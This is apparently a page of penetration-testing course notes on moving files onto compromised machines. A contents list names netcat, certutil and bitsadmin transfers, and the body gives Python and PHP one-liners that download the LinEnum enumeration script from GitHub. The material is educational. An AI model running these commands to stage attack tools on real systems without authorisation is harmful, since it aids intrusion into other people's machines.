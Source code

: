       - [Symlink our Site to the sites-enabled Directory](#Symlink\our\Site\to\the\sites-enabled\Directory)
      - [Start Nginx](#Start\Nginx)
      - [Verifying Errors](#Verifying\Errors)
      - [Remove NginxDefault Configuration](#Remove\NginxDefault\Configuration)
      - [Upload File Using cURL](#Upload\File\Using\cURL)
  - [Using the LOLBAS and GTFOBins Project](#Using\the\LOLBAS\and\GTFOBins\Project)
      - [Upload win.ini to our Pwnbox](#Upload\win.ini\to\our\Pwnbox)
      - [File Received in our Netcat Session](#File\Received\in\our\Netcat\Session)
    - [GTFOBins](#GTFOBins)
      - [Create Certificate in our Pwnbox](#Create\Certificate\in\our\Pwnbox)
      - [Stand up the Server in our Pwnbox](#Stand\up\the\Server\in\our\Pwnbox)
      - [Download File from the Compromised Machine](#Download\File\from\the\Compromised\Machine)
      - [Other Common Living off the Land Tools](#Other\Common\Living\off\the\Land\Tools)
      - [File Download with Bitsadmin](#File\Download\with\Bitsadmin)
      - [Download](#Download)
    - [Certutil](#Certutil)
      - [Download a File with Certutil](#Download\a\File\with\Certutil)

# With Code


Python2 Download
```shell-session
gdxqpardo@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```


Python3 Download
```shell-session
gdxqpardo@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

`PHP` is also very prevalent and provides multiple file transfer methods. [According to W3Techs' data](https://w3techs.com/technologies/details/pl-php), PHP is used by 77.4% of all websites with a known server-side programming language. Although the information is not precise, and the number may be slightly lower, we will often encounter web services that use PHP when performing an offensive operation.

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP [file_get_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file_put_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.

PHP Download with File_get_contents()

```shell-session
gdxqpardo@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
